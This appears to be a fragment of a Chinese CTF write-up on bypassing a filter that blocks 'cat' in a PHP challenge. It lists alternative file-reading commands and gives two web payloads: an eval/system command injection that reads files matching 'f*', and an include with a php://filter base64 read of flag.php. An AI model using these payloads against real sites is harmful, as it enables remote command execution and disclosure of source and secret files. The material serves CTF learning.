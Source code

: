 cat被过滤了

我们可以使用

```bash
more:一页一页的显示档案内容
 
 
less:与 more 类似 head:查看头几行
 
 
tac:从最后一行开始显示，可以看出 tac 是cat 的反向显示
 
 
tail:查看尾几行
 
 
nl：显示的时候，顺便输出行号
 
 
od:以二进制的方式读取档案内容
 
 
vi:一种编辑器，这个也可以查看
 
 
vim:一种编辑器，这个也可以查看
 
 
sort:可以查看
```

```cobol
payload1: ?c=eval($_GET[1]);&1=system('cat  f*');
payload2: ?c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php
```

## 这里有一个新姿势 可以学习一下



我们首先了解一下代码

```scss
__FILE__ 
 
表示当前文件
完整路径和文件名
 
dirname()
获取一个网站路径的目录名
 
scandir()
 
读取目录的文件 然后作为一个数组
 
print_r()
 
打印数组内容
```
